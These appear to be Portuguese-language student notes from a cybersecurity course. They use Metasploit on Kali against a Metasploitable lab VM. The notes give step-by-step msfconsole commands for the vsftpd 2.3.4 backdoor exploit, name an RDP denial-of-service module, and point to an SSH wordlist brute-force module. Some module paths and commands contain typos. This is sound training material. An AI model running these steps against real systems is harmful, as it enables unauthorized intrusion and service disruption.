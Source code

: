 Dio - Técnicas de Exploração de Vulnerabilidades

https://www.youtube.com/watch?v=Vq_8nn70kxg&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE


Aqui vamos usar o Kali, para invadir a maquina virtual com o metaexploitable

# Explorando Falhas FTP

FTP (File Transfer Protocol) é um protocolo bem antigo (anos 70) usado para transferir arquivos entre cliente e servidor. Funciona na porta 21 (controle) e usa uma porta adicional para dados (ativo ou passivo).

⚠️ Falhas principais do FTP clássico:
• Credenciais em texto puro → usuário e senha podem ser capturados facilmente com sniffing.
• Sem criptografia nativa → os arquivos também viajam abertos pela rede.
• Portas dinâmicas no modo ativo/passivo → complica firewall e pode ser explorado.
• Vulnerável a brute force → como não tem proteção moderna, é alvo fácil.
• Não integra segurança moderna → não tem autenticação forte nem integridade de dados.

👉 Por isso, hoje em dia se usa SFTP (via SSH) ou FTPS (FTP com TLS), que corrigem essas brechas.

## Usaremos o METASPLOIT

Metasploit é uma framework de testes de penetração muito usada por pentesters, red teams e pesquisadores de segurança para explorar vulnerabilidades, gerar payloads e automatizar etapas de ataque e pós-exploração. Foi criada nos anos 2000 e hoje tem versão open-source (Framework) e versão paga (Metasploit Pro).

### Componentes principais

msfconsole — interface principal (CLI).
msfvenom — cria payloads (binários, executáveis, scripts).
Modules — biblioteca de módulos reutilizáveis: exploits, payloads, auxiliary (scanners/fuzzers), post (pós-exploração).
Meterpreter — payload interativo poderoso para pós-exploração (shell avançado, upload/download, pivoteamento).
Banco de dados — integra varreduras (ex.: Nmap) para organizar alvos.

## Payloads

Modulos para exploit, sendo Singles, Stagers, Stages

## Meterpreter

Oi meta-interpreter, é um payloader que funciona por injecção dll

O meterpreter reside interiramente na memoria e não deixa vestigios no disco rigido.

---

# O ataque - Passo a Passo


## Passo 1 
    No Kali, usamos o comando, para iniciar o msf:
    ▶️ msfconsole

## Passo 2
    Localizamos o exploit que vamos usar, ele faz parte da galeria do kali/msf, ▶️ exploit/unix/ftp/vsftpd_234_backdor 

    comando para termos mais informações dele: 
    ▶️ info exploit/unix/ftp/vsftpd_234_backdor
    Esse modul explora um backdor que foi inseriod na versão de June 2011, envenenando uma versão, e versões desatualizadas ainda existem.

## Passo 3 
    Vamos ativar e começar a usar nosso Backdor:     
    ▶️ use exploit/unix/ftp/vsftpd_234_backdor

    Configurar o Ip de destico, Alvo,
    ▶️ set rhosts 192.68.56.100

## Passo 4 Verificar Payload
    Vamos dar uma olhada para selecionar os Payloads, comando:
    ▶️ Show payloads

    Configurar o payload que vamos usar
    ▶️ set payloads payload/cmd/unix/interact

## Passo 5 - Rodar
    Com tudo configurado aqui até agora, podemos rodar com o comando:
    ▶️ exploit

    aqui nois ja esta dentro do sistema alvo.

---

# ETAPA 2 ATAQUE DoS no RDP

youtube.com/watch?v=bVn6Dj4Z8ls&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

"" Um ataque DoS em RDP visa tornar o serviço indisponível para usuários legítimos, geralmente por flood de conexões, autenticações ou pacotes malformados que esgotam CPU, memória ou travam o serviço, causando indisponibilidade e perda de produtividade; as principais mitigação incluem habilitar NLA e MFA, colocar o RDP atrás de VPN ou RDP Gateway, aplicar rate limiting e firewall, manter o servidor atualizado e monitorar logs e conexões para detectar atividades anômalas.
""
    Vamos fazer um ataque de negação de serviço, em um Remote Desktop Conection,

    A Maldade que vamos usar
▶️ auxiliary/doc/windows/rd@/ms12_020_maxchannelids

# Etapa 3 - Explorando falhas SSH

https://www.youtube.com/embed/uIizaBULfq4?controls=0&disablekb=1&enablejsapi=1&fs=0&iv_load_policy=3&modestbranding=1&showinfo=0&rel=0&html5=1&cc_load_policy=0&origin=https%3A%2F%2Fweb.dio.me&widgetid=1&forigin=https%3A%2F%2Fweb.dio.me%2Ftrack%2Fsantander-ciberseguranca-2025%2Fcourse%2Fexploracao%2Flearning%2F280a133f-d590-4c80-964a-a45b49781159%3Fautoplay%3D1&aoriginsup=1&vf=6

▶Lembre-se, entre no console
▶️ msfconsole

▶️search ssh_login
    Esse cara aqui vai nos ajudar a invadir, ao forçar login com wordlist

Comando, nos permite vizulizar as coneções que estamos conectados.
▶️ Sessions

